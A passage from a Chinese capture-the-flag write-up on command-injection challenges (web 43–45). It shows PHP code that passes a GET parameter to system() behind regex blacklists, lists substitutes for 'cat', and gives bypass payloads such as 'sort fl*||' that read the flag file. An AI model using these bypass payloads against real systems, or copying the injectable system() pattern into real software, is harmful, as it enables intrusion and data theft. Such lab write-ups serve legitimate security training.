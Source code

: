 过滤了cat和分号,换一个文件读取命令即可，<a href='https://www.cnblogs.com/NPFS/p/13279815.html' target="_blank">命令执行绕过小技巧</a>

```
more:一页一页的显示档案内容
less:与 more 类似
head:查看头几行
tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
tail:查看尾几行
nl：显示的时候，顺便输出行号
od:以二进制的方式读取档案内容
vi:一种编辑器，这个也可以查看
vim:一种编辑器，这个也可以查看
sort:可以查看
uniq:可以查看
file -f:报错出具体内容
grep
strings
```

payload: sort flag.php||      （payload有很多，这里只列举一个）

查看源码即可得到flag



## web 44

```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/;|cat|flag/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

多过滤了一个flag,通配符绕过即可

payload:?c=sort%20fl*||      (payload有很多，这里只列举一个）



## web 45

```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| /i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```
